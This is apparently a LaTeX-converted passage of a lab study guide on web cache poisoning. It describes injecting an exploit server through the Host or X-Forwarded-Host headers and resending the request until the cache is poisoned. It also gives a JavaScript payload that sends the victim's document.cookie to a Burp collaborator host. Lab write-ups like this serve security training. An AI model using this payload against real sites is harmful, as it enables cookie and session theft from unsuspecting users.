 \documentclass[
  letterpaper,
]{article}
\newcommand{\passthrough}[1]{#1}
\begin{document}
\section{Web cache poisoning}\label{web-cache-poisoning}

\subsection{Approach}\label{approach-15}

The main tip I\textquotesingle ve got there is to watch for
\passthrough{\lstinline!/resources/js/tracking.js!} file and
\passthrough{\lstinline!X-Cache: hit!} header in response. If you got
only tracking.js without X-Cache - no cache poisoning here, folks.\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
If you got both file and header, the first thing you should try is to
inject your exploit server into \textbf{Host:} or
\textbf{X-Forwarded-Host:} headers and check them in response:\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\textbf{ATTENTION:} It is really important to send your poisoned request
more than once. For me, I had to send it like 10 times to poison the
cache.

You got the poisoned cache with X-Forwarded-Host? Cool, now go to your
exploit server, set the File name /resources/js/tracking.js and in Body
section paste the next payload:
\passthrough{\lstinline!document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')!}.
Poison web cache with your server and wait for victim\textquotesingle s
cookies.\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\subsection{Labs}\label{labs-14}

\subsubsection{1. Web cache poisoning with an unkeyed
header}\label{1-web-cache-poisoning-with-an-unkeyed-header}
\end{document}
